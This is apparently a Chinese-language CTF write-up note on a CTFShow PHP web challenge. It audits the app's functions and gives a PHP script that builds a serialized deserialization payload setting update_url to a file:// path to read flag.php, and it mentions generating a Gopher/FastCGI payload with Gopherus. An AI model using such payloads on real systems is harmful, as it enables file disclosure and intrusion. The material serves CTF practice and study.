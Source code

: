 tags:: CTF/伪协议, CTF/RCE, CTF/PHP/CGI

- Gopher 伪协议 [[CTFWEB/伪协议]]打FastCGI
- # 反序列化
	- 和 [[CTFWEB/WP/CTFShow/web308]]相同
	- if判断
	  id:: 62f26cf6-b9b3-4ba5-84e2-d33a5f32a1aa
		- 无
		  id:: 62f26d4c-0663-4721-bc9f-e2adce779080
	- checkVersion
	  id:: 62f26d07-e020-4ced-8d78-5e245c9a8a05
		- dao
		  id:: 62f26d50-b479-482a-b6a5-89c08030c427
			- fun: checkUpdate: ^^伪协议任意文件读取^^
			  id:: 62f26d5d-8540-4858-aa4e-9ae280c07115
	- addDpt
	  id:: 62f26d0d-3bc7-406a-a971-589573f91a09
		- service
		  id:: 62f26d98-d251-40e2-bc00-4bbcccdaf22a
			- insert_dbt
			  id:: 62f26da0-82b2-4613-a2e6-3166d7b66313
				- dao: 普通SQL，无法注入
				  id:: 62f26da5-2a83-4deb-b066-fb31e536bcc9
	- getAllDbt
	  id:: 62f26d1e-a3b3-451b-bfbe-5033b233f0b0
		- service
		  id:: 62f26db2-34c5-4c97-9a90-6ef81cdf928d
			- get_dpt_all
			  id:: 62f26dc5-059c-42c1-9bd3-fc5bddbd1ebd
				- dao: 普通SQL，无法注入
				  id:: 62f26dd1-3108-47b8-ba9a-4637ade9e12b
	- clearCache
	  id:: 62f26d28-5fce-4e10-8318-0f9191e92c26
		- service: 调用dao: clearCache
		  id:: 62f26d36-3b6c-4504-afbb-d2259dce463a
		- dao: shell_exec，但是只能有数字和换行
		  id:: 62f26e00-a110-4827-b830-8bb0308a9012
- 利用，和web308相同
- ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher打SSTI
- 用Gopherus生成Payload
- 需要一个存在的文件，填写`/var/www/html/index.php`
-
-